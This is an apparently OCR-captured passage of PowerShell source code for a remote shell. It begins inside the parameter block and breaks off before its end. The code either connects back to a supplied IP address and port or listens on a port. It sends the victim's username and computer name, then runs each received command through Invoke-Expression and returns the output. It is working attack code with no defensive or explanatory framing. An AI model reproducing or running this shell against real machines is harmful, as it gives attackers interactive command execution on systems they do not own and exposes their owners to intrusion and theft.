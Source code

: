 ```powershell
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
```
